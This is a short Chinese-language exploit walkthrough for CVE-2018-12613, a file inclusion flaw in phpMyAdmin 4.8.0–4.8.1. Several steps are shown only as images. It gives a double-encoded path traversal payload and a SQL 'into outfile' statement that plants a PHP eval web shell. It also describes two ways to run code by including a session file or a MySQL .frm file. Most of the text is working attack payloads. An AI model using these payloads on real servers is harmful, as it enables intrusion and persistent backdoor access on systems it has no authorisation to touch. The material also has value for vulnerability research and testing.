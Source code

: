 # CVE-2018-12613 Phpmyadmin 远程文件包含漏洞

### 一、漏洞简介

### 二、漏洞影响

phpMyAdmin 4.8.0和4.8.1受到影响。

### 三、复现过程

首先需要登录phpmyadmin

**payload**


```bash
http://url/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt
```

![](images/15893346835890.png)


### 写入shell

第一种姿势

1、写入shell，测试语句：

![](images/15893346939461.png)


2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![](images/15893347023743.png)


补充代码

如果上述方法不行的话，则用以下代码


```sql
select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php'
```

3、访问：


```
http://url/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3
```

**第二种姿势**

1、在数据表里面添加一句话(这里一点要用get！)

![](images/15893347364301.png)


2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![](images/15893347456478.png)


3、访问


```
http://url/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm
```

![](images/15893347633698.png)



